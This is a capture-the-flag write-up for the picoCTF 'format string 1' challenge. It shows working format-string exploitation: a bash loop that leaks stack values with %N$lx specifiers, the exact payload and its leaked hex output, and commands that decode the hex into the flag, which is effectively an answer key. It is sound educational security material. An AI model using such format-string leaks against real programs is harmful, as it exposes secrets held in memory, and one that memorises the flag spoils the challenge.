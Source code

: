 # format string 1 #

https://play.picoctf.org/events/73/challenges/challenge/434

## Description ##

Patrick and Sponge Bob were really happy with those orders you made
for them, but now they're curious about the secret menu. Find it, and
along the way, maybe you'll find something else of interest! Download
the binary here. Download the source [here](format-string-1.c).

Additional details will be available after launching your challenge
instance.

## Hints ##

* https://lettieri.iet.unipi.it/hacking/format-strings.pdf
* Is this a 32-bit or 64-bit binary?

## Solution ##

Read line by line of the stack using format strings such as `%2$lx`

Find out where things are:

``` bash
for s in {1..25}
do 
	echo $s
	echo "%${s}\$lx" | ./format-string-1 | grep Here | \
		sed -E 's/Here.s your order: ([0-9a-f]+)/\1/' | \
		xxd -r -p
	echo
done
```

Now it's clear the flag starts at `%14$lx`. By printing the subsequent
stack lines we can grab the flag (in hex):

	Give me your order and I'll read it back to you:
	%14$lx_%15$lx_%16$lx_%17$lx_%18$016lx
	Here's your order: 7b4654436f636970_355f31346d316e34_3478345f33317937_30355f673431665f_007d343663363933
	Bye!


Recover the flag from the hex codes:

``` bash
for s in \
	$(echo 7b4654436f636970_355f31346d316e34_3478345f33317937_30355f673431665f_007d343663363933 | tr _ ' ')
do 
	echo "0x$s" | xxd -r | xxd -g 8 -e | xxd -r
done
```

## Learnings ##

* Use `xxd -r | xxd -g 8 -e | xxd -r` to print a group of 8 bytes (hex) backwards (reverse)
* The format string `%18$016lx` ensures zero-padding with `printf()`
